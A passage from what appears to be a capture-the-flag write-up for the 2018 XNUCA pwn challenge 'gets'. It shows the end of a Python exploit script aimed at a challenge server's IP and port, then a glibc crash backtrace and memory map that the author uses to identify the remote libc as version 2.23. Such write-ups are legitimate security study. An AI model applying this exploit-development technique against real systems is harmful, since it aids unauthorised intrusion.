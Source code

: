 ```python

            p.close()

            continue





if __name__ == "__main__":

    exp('106.75.4.189', 35273)

```



Finally, we found the following error. On the one hand, we can judge that this is definitely the 2.23 version of libc; on the other hand, we can finally locate the version of libc by `(cfree+0x4c)[0x7f57b6f9253c]`.


```

======= Backtrace: =========

/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f57b6f857e5]

/lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7f57b6f8e37a]

/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7f57b6f9253c]

/lib/x86_64-linux-gnu/libc.so.6(+0xf2c40)[0x7f57b7000c40]

[0x7ffdec480f20]

======= Memory map: ========

00400000-00401000 r-xp 00000000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets

00600000-00601000 r--p 00000000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets
00601000-00602000 rw-p 00001000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets

00b21000-00b43000 rw-p 00000000 00:00 0                                  [heap]

7f57b0000000-7f57b0021000 rw-p 00000000 00:00 0

7f57b0021000-7f57b4000000 ---p 00000000 00:00 0

7f57b6cf8000-7f57b6d0e000 r-xp 00000000 08:01 914447                     /lib/x86_64-linux-gnu/libgcc_s.so.1

7f57b6d0e000-7f57b6f0d000 ---p 00016000 08:01 914447                     /lib/x86_64-linux-gnu/libgcc_s.so.1

7f57b6f0d000-7f57b6f0e000 rw-p 00015000 08:01 914447 /lib/x86_64-linux-gnu/libgcc_s.so.1
7f57b6f0e000-7f57b70ce000 r-xp 00000000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so

7f57b70ce000-7f57b72ce000 ---p 001c0000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so

```